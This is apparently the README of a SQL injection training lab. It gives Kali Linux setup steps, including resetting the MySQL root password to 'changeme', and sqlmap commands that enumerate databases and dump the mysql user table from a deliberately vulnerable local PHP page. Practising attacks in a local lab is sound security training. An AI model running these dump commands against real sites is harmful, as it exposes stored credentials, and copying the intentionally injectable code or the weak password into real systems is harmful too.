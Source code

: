 on fresh installed linux kali 1.0.9a do:

sudo -s

apt-get install gedit phpmyadmin;

cd /var/www/;
git clone https://github.com/loeken/sqlinjection_examples;

cd sqlinjection_examples;
service mysql start;
use mysql;
update user set password=PASSWORD("changeme") where User='root';
flush privileges;
create database sqlinjection_examples;
use sqlinjection_examples;
source schema.sql;



sqlmap -u http://localhost/sqlinjection_examples/example1.php?username= --dbs

sqlmap -u http://localhost/sqlinjection_examples/example1.php?username= -D mysql --tables

sqlmap -u http://localhost/sqlinjection_examples/example1.php?username= -D mysql -T user --dump


